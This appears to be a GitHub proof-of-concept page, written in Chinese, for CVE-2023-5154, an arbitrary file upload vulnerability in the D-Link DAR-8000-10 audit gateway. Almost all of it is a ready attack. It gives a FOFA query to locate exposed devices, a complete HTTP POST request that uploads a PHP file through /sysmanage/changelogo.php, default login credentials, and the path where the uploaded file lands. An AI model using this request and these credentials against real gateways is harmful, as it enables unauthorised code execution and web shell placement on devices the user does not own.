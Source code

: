 ## D-Link_DAR-8000-10上网行为审计网关任意文件上传漏洞(CVE-2023-5154)


## fofa
```
body="DAR-8000-10" && title="D-Link"
```
![image](https://github.com/wy876/POC/assets/139549762/0604d3f1-2325-4ef2-9ba3-cfbe182da07d)

## poc
```
POST /sysmanage/changelogo.php HTTP/1.1
Host: 
Cookie: PHPSESSID={登陆获取}
Accept: image/gif, image/jpeg, image/pjpeg, application/x-ms-application, application/xaml+xml, application/x-ms-xbap, */*
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1) AppleWebKit/531.32.3 (KHTML, like Gecko) Version/4.1 Safari/531.32.3
Content-Type: multipart/form-data; boundary=---------------------------7e62f02f51878
Accept-Encoding: gzip, deflate
Content-Length: 326
Cache-Control: no-cache
Connection: close

-----------------------------7e62f02f51878
Content-Disposition: form-data; name="file_upload"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------7e62f02f51878
Content-Disposition: form-data; name="mode"

upload
-----------------------------7e62f02f51878--
```

需要登录
```
test/admin@123
admin/admin
```

![fb11b0e63a546ac5943d60d5237d8d77](https://github.com/wy876/POC/assets/139549762/24555069-a601-4295-864b-0ad930ce515e)

文件路径：
`/boot/web/upload/diylogo/phpinfo.php`
